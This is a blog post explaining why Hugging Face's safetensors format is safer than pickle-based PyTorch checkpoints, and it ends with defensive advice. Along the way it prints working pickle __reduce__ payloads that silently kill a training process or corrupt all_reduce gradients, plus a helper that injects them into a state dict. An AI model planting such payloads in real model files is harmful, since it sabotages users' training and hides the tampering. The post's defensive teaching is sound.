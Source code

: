 ```yaml
---
title: "Why do we need Hugging Face's SafeTensor?"
description: "Malicious code can be injected in your model weights and safetensors is all you need."
date: "2024-10-19"
slug: "2024-10-19-safetensor"
ogImage:
  url: "https://huggingface.co/datasets/huggingface/documentation-images/resolve/main/safetensors/safetensors-logo-light.svg"
---
```


A long time ago, a very simple question came to my mind when I was reading a bunch of Hugging Face's documentation - what does Hugging Face's Safetensor do? The term "Safetensor" appears in many places in the Hugging Face's documentation but people rarely talk about it and discuss its purpose. Recently, there was a security affair which affected a team's model training progress and this prompts me to revisit this question and write this blog. It should be noted that this blog is not a discussion of the affair but rather the technical advocation for the use of safetensors to protect your models, which are the most important assets in the AI era.

## What's wrong with the current model storage?

When we train a model, we often save the model weights to a file for checkpointing and later loading. The most popular format for this is the PyTorch state dictionary, which is a Python dictionary object mapping each layer to its parameter tensor. I guess most of you are familiar with the following code snippet:

```python
# save model weights
state_dict = model.state_dict()
torch.save(state_dict, "model.pt")

# load model weights
state_dict = torch.load("model.pt")
model.load_state_dict(state_dict)
```

However, this method uses `pickle` to serialize and deserialize the entire state dict object, raising concerns over its security. The reason is that `pickle` is not secure against erroneous or maliciously constructed data. It may load arbitrary code with the same privileges as the program that is deserializing the data. In this way, the attacker can inject arbitrary code into the model weights and cause serious security issues. One way to hack the models weights is to modify its `__reduce__` method to execute arbitrary code.

```python
class Obj:

    def __reduce__(self):
        return (exec, ("print('hello')",))
```

If you serialize this object and save it to a file, the code will be executed when you load the object. That is, you will see a "hello" statement printed when you load the object.

With this in mind, we can basically manipulate many parts of the program, including imported libraries and local variables. I have provided two typical senarios where your training process can be interrupted and the arithmetic correctness of the model weights can be tampered with. You can also find the example code in my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor).

### Scenario 1: Automatically shut down the training process

As we can see in the "hello" example above, the malicious code is written as a code string. Similarly, we can prepare the following code string to create a new thread, which kills the parent process after 5 seconds. This thread works at the background so the user won't notice anything and `os.kill` does not return any error trace, which makes it hard to detect the malicious code.

```python
AUTO_SHUTDOWN = """
import os
import threading
from functools import partial

# get the process ID
pid = os.getpid()

def inject_code(pid: int):
    import time
    import os
    time.sleep(5)
    os.kill(pid, 9)

wrapped_fn = partial(inject_code, pid)
injection_thread = threading.Thread(target=wrapped_fn)
injection_thread.start()
"""
```

Next, we need to inject this code into the state dict object. As a result, when we load the model weights from disk, the code will be executed and the training process will be interrupted.

```python
def inject_malicious_code(obj, code_str):
    # bind a reduce fn to weights
    def reduce(self):
        return (exec, (code_str, ))

    # bind the reduce fn to the weights's __reduce__ method
    bound_reduce = reduce.__get__(obj, obj.__class__)
    setattr(obj, "__reduce__", bound_reduce)
    return obj

state_dict = inject_malicious_code(state_dict, AUTO_SHUTDOWN)
```

### Scenario 2: Introduce errors in collective communication

Similarly, if we want to modify the behaviour of the collective communication operations, we can introduce errors in its computation so that the gradients will never be correct in distributed training. We can prepare the following code string to hijack the `all_reduce` function. This code string monkey patches the `all_reduce` API in the `torch.distributed` module and adds 1 to the tensor in place. As a result, the all-reduce results will be larger than the expected results.

```python
HIJACK_ALL_REDUCE = """
import torch.distributed as dist

dist._origin_all_reduce = dist.all_reduce
def hijacked_all_reduce(tensor, *args, **kwargs):
    import torch.distributed as dist
    tensor = tensor.add_(1)
    return dist._origin_all_reduce(tensor, *args, **kwargs)

setattr(dist, "all_reduce", hijacked_all_reduce)
"""
```

For example, if you have 2 processes and each process is holidng a tensor `[0, 1, 2, 3]`, the all-reduce operation will sum up the tensors from each process and the result will be `[0, 2, 4, 6]`. However, if the attacker injects the malicious code, the result will be `[2, 4, 6, 8]`.

## How do Safetensors solve the problem?

In the first place, Safetensors do not use `pickle` to serialize and deserialize the state dict object. Instead, it uses a custom serialization method to store the model weights. In this way, the attacker cannot inject arbitrary code into the model weights. Amazingly, Safetensors are still fast as does zero-copy when storing and saving model weights. In simple words, Hugging Face's Safetensors ensure that your model weights files only contain the parameter data and nothing else.

We have also provided some examples of using safetensors to remove the security concerns in the my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor). For every example which demonstrates the malicious scenario, you just simply add the `--use-safetensor` flag to the command to see the difference.

Moreover, if you still want to stick to `torch.load`, you can specify the argument `weights_only` so that PyTorch will restricts the unpickler to only unpickle the metadata and tensors.

## References

- https://www.reddit.com/r/learnpython/comments/ewrcuc/how_do_you_run_code_while_unpickling/
- https://huggingface.co/docs/safetensors/en/index
